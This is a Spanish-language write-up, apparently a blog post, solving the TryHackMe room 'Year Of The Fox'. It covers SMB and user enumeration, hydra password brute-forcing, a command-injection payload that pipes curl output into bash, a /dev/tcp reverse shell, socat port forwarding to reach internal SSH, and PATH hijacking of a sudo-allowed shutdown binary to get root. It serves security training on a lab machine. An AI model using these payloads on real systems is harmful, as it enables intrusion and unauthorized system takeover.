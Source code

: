 ```yaml
---
title : MQ|FOX|SMB|JAVA|RCE|SOCAT|PATH.HCK
published : True
---
```


<div class="contenedor imgc">
    <img class="imgc" src="/imgs/YerOfTheFox/YerOfTheFox0.png" style="border-radius: 150px; width: 169px" alt="Calamity log">
    <div> 
        <p><font color="red" style="text-shadow: 5px 5px 20px red;">#</font> Dificultad: Difícil </p>
        <p><font color="red" style="text-shadow: 5px 5px 20px red;">#</font> Url: <a href="https://tryhackme.com/r/room/yotf" style="color: lightblue;">Year Of The Fox</a></p>
    </div>
</div>

<h2><font color="white"><center># Fox</center></font></h2>

* Empezamos lanzando un ping a la maquina para observar la trazabilidad de conexión y enumerar por su ttl el sistema operativo, que en este caso es una maquina Linux.

```java
# ping 10.10.92.139 -c1 -R
PING 10.10.92.139 (10.10.92.139) 56(124) bytes of data.
64 bytes from 10.10.92.139: icmp_seq=1 ttl=60 time=410 ms
RR: 	10.17.21.18
	10.16.107.119
	10.10.92.139
	10.10.92.139
	10.17.0.1
	10.17.21.18


--- 10.10.92.139 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 410.246/410.246/410.246/0.000 ms
```

* Ahora procedemos a enumerar puertos abiertos en el servidor.

```java
# Nmap 7.94SVN scan initiated Thu Dec 19 14:29:55 2024 as: nmap --min-rate 5000 -sS -Pn --open -p- -A -sCV -v -oN all_services 10.10.92.139
Nmap scan report for 10.10.92.139

PORT    STATE SERVICE     VERSION
80/tcp  open  http        Apache httpd 2.4.29
|_http-title: 401 Unauthorized
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=You want in? Gotta guess the password!
|_http-server-header: Apache/2.4.29 (Ubuntu)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: YEAROFTHEFOX)
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: YEAROFTHEFOX)
```
* Procedemos a ver el puerto http 80 que corre el servidor, y vemos que nos muestra un login.

<img src="imgs/YerOfTheFox/YerOfTheFox1.png">

* Usamos smbmap para listar carpetas compartidas, y vemos que no tenemos acceso.

        smbclient -H MAQUINA_IP 
         
```java
# smbmap -H 10.10.92.139
[+] Guest session   	IP: 10.10.92.139:445	Name: 10.10.92.139                                      
        Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	yotf                                              	NO ACCESS	Fox's Stuff -- keep out!
	IPC$                                              	NO ACCESS	IPC Service (year-of-the-fox server (Samba, Ubuntu))
```

* Procedemos a usar enum4linux para enumerar mas a detalle usuarios y información relevante.

        enum4linux MAQUINA_IP

```java
[+] Enumerating users using SID S-1-22-1 and logon username '', password ''
 S-1-22-1-1000 Unix User\fox (Local User)
 S-1-22-1-1001 Unix User\rascal (Local User)
```

* Usamos hydra para hacer un ataque con estos usuarios encontrados.

            hydra -l rascal -P /usr/share/wordlists/rockyou.txt -f 10.10.92.139 http-head

```java
 # hydra -l rascal -P /usr/share/wordlists/rockyou.txt -f 10.10.92.139 http-head
 Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, 
 hese *** ignore laws and ethics anyway).

 [80][http-head] host: 10.10.92.139   login: rascal   password: othello
 [STATUS] attack finished for 10.10.92.139 (valid pair found)
 1 of 1 target successfully completed, 1 valid password found
```

* Ahora con la credencial encontrada y el usuario vemos que hay en la pagina web.

<img src="imgs/YerOfTheFox/YerOfTheFox2.png">

* Usamos BurpSuite para controlar el trafico y hacer tests, vemos que usa cadenas java, en el apartado target, procedemos entonces a inyectar comandos 

        echo '/bin/bash -c "bash -i >& /dev/tcp/TU_IP/PUERTO 0>&1"' > data # Creamos el archivo data.

        sudo python3 -m http.server 80 # Creamos el servicio compartido.

        nc -nlvp PUERTO # Nos ponemos en escucha.
        
        sintaxis "\";curl 10.17.21.18/data | bash;\"" # Lo que haces es dentro de 2 comillas simples colocar el comando a ejecutar y se separan para que no entren en conflicto las multiples comillas. de esta manera hacer que java interprete el comando.

<img src="imgs/YerOfTheFox/YerOfTheFox3.png">


* Ganamos acceso al sistema después de lanzar la petición.

```java
www-data@year-of-the-fox:/dev/shm$ whoami
www-data
```

* Procedemos a enumerar puertos internos de la maquina y vemos que hay un puerto ssh corriendo de manera interna.


        netstat -nl

```java
www-data@year-of-the-fox:/dev/shm$ netstat -l
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State      
tcp        0      0 0.0.0.0:netbios-ssn     0.0.0.0:*               LISTEN     
tcp        0      0 localhost:domain        0.0.0.0:*               LISTEN     
tcp        0      0 localhost:ssh           0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:microsoft-ds    0.0.0.0:*               LISTEN     
tcp6       0      0 [::]:netbios-ssn        [::]:*                  LISTEN     
tcp6       0      0 [::]:http               [::]:*                  LISTEN     
tcp6       0      0 [::]:microsoft-ds       [::]:*                  LISTEN 
```


* Vemos el archivo de configuración /etc/ssh/sshd_config y vemos que el usuario fox esta en lista de admitidos.

```java
www-data@year-of-the-fox:/dev/shm$ cat /etc/ssh/sshd_config  | tail -n 1
AllowUsers fox
```

* Procedemos a transferirnos socat para hacer port for warding y hacer el puerto ssh correr de manera local.

        ./socat.bin tcp-listen:8888,reuseaddr,fork tcp:localhost:22


<img src="imgs/YerOfTheFox/YerOfTheFox4.png">

* Procedemos a hacer un ataque con hydra con el usuario fox.

```java
 # hydra -l fox -P /usr/share/wordlists/rockyou.txt 10.10.92.139 -s 8888 ssh

 [DATA] attacking ssh://10.10.92.139:8888/
 [8888][ssh] host: 10.10.92.139   login: fox   password: 147852
 1 of 1 target successfully completed, 1 valid password found
```
 
* Nos conectamos por ssh de manera satisfactoria.

        ssh fox@maquina_ip -p 8888

<img src="imgs/YerOfTheFox/YerOfTheFox5.png">

* A la hora de correr el comando sudo -l vemos que no hay un path de ruta segura, lo que lo implica a poder manipular esta ruta a la hora de correr comando como usuario sudo, de esta forma poder elevar privilegios.

```java
fox@year-of-the-fox:~$ sudo -l
Matching Defaults entries for fox on year-of-the-fox:
    env_reset, mail_badpass

User fox may run the following commands on year-of-the-fox:
    (root) NOPASSWD: /usr/sbin/shutdown
```

* Vemos que el binario /usr/sbin/shutdown lo que hace es llamar a shutdown de forma externa al parecer.

<img src="imgs/YerOfTheFox/YerOfTheFox6.png">

* Procedemos entonces a copiar el binario /bin/bash y pegar como /tmp/shutdown

```java
fox@year-of-the-fox:/dev/shm$ cp /bin/bash /tmp/shutdown
fox@year-of-the-fox:/dev/shm$ export PATH=/tmp:$PATH
fox@year-of-the-fox:/dev/shm$ sudo /usr/sbin/shutdown
root@year-of-the-fox:/dev/shm# whoami
root
```

* Y listo lo que hicimos fue alterar la ruta para que primero busque por /tmp/ el binario shutdown si lo encuentra entonces este lo ejecutara, de esta forma nos da la shell como root puesto que renombramos el binario para que fuera shutdown en ves de bash. 